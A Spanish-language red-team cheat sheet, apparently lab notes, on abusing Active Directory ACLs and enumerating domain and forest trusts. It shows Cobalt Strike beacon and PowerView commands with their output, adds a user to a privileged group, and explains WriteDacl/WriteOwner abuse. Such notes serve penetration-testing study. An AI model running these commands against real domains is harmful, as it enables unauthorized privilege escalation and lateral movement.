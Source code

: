 ##### Modificar la pertenencia a un grupo de dominio
Si tenemos la ACL en un grupo, podemos agregar y eliminar miembros.
```powershell
run net group "Oracle Admins" TestAcl /add /domain

# Chequeando
beacon> powershell Get-DomainGroupMember "Oracle Admins"

GroupDomain             : dev.evilcorp.local
GroupName               : Oracle Admins
GroupDistinguishedName  : CN=Oracle Admins,CN=Users,DC=dev,DC=evilcorp,DC=local
MemberDomain            : dev.evilcorp.local
MemberName              : TestAcl
MemberDistinguishedName : CN=TestAcl,CN=Users,DC=dev,DC=evilcorp,DC=local
MemberObjectClass       : user
MemberSID               : S-1-5-21-2697495467-513533215-122973509-1138
```

> 🎇Hay otras DACL interesantes que pueden conducir a abusos similares. Por ejemplo, con **WriteDacl** puede otorgar **GenericAll** a cualquier principal. Con **WriteOwner** , puede cambiar la propiedad del objeto a cualquier principal que luego heredaría GenericAll sobre él. 

---

### Forest And Domain Trust

tag : #trust

#### Inbound ➡
Debido a que la confianza es entrante desde nuestra perspectiva, significa que a los principales en nuestro dominio se les puede otorgar acceso a los recursos en el dominio externo.
```powershell
# Map Trust Domains
powershell Invoke-MapDomainTrust | select SourceName,TargetName,TrustDirection 

SourceName         TargetName         TrustDirection
----------         ----------         --------------
dev.evilcorp.local evilcorp.local     Bidirectional 
dev.evilcorp.local sucursal.external  Inbound       
sucursal.external  dev.evilcorp.local Outbound      
evilcorp.local     dev.evilcorp.local Bidirectional 
evilcorp.local     madrid.external    Outbound

# Domain trust 
powershell Get-DomainTrust 
powershell Get-DomainTrust -Domain evilcorp.local

# Idenfiticar equipos del dominio externo
powershell Get-DomainComputer -Domain sucursal.external | select dnshostname

# Get-DomainForeignGroupMember enumerará cualquier grupo que contenga usuarios fuera de su dominio y devolverá sus miembros.
powershell Get-DomainForeignGroupMember -Domain sucursal.external

GroupDomain             : sucursal.external
GroupName               : Administradores
GroupDistinguishedName  : CN=Administradores,CN=Builtin,DC=sucursal,DC=external
MemberDomain            : sucursal.external
MemberName              : S-1-5-21-2697495467-513533215-122973509-1148
MemberDistinguishedName : CN=S-1-5-21-2697495467-513533215-122973509-1148,CN=ForeignSecurityPrincipals,DC=sucursal,DC=external

# Convertir SID para saber que usuario/grupo pertenece al grupo administradores del dominio con relacion entrante
powershell ConvertFrom-SID "S-1-5-21-2697495467-513533215-122973509-1148"
```